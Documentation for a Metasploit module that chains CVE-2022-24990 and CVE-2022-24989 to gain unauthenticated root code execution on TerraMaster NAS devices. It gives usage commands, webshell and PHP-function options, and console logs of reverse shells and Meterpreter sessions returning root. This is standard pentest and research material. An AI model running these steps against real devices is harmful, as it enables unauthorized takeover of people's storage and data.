 ## Vulnerable Application

This module combines [CVE-2022-24990: Leaking sensitive information](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24990) and
[CVE-2022-24989: Authenticated remote code execution](https://www.redpacketsecurity.com/terramaster-tos-command-execution-cve-2022-24989/)
to achieve an unauthenticated RCE by exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as
admin password hash and mac address to achieve unauthenticated access and use the vulnerable endpoint`api.php?mobile/createRaid` with
`POST` parameters `raidtype` / `diskstring` to upload a webshell and execute remote code as root on TerraMaster NAS devices.

All TerraMaster devices running TerraMaster Operating System (TOS) `4.2.29` or lower are vulnerable.

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2022_24990`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > info

       Name: TerraMaster TOS 4.2.29 or lower - Unauthenticated RCE chaining CVE-2022-24990 and CVE-2022-24989
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2022_24990
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-03-07

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Octagon Networks
  0xf4n9x

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host
  WEBSHELL                    no        Web shell name with extension .php. Name will be randomly generated if left unset.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                      .0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code execution vulnerability in TerraMaster TOS 4.2.29
  and lower by chaining two existing vulnerabilities, CVE-2022-24990 "Leaking sensitive information"
  and CVE-2022-24989, "Authenticated remote code execution".
  Exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as admin password
  hash and mac address, the attacker can achieve unauthenticated access and use another vulnerable endpoint
  `api.php?mobile/createRaid` with POST parameters `raidtype` and `diskstring` to upload a webshell and
  execute remote code as root on TerraMaster NAS devices.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-24990
  https://nvd.nist.gov/vuln/detail/CVE-2022-24989
  https://octagon.net/blog/2022/03/07/cve-2022-24990-terrmaster-tos-unauthenticated-remote-command-execution-via-php-object-instantiation/
  https://github.com/0xf4n9x/CVE-2022-24990
  https://attackerkb.com/topics/h8YKVKx21t/cve-2022-24990


View the full module info with the info -d command.
```

### TerraMaster F2-221 TOS 4.2.08 - PHP native `php/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 1 opened (192.168.10.1:4444 -> 192.168.10.2:55766) at 2023-06-10 12:20:10 +0000

meterpreter > sysinfo
Computer    : TerrorMaster
OS          : Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:20:56 CET 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: root
meterpreter >
```
### TerraMaster F2-221 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted cuckoo.php
[*] Command shell session 2 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-10 12:31:22 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-221 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 2
target => 2
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 3 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-10 12:39:01 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
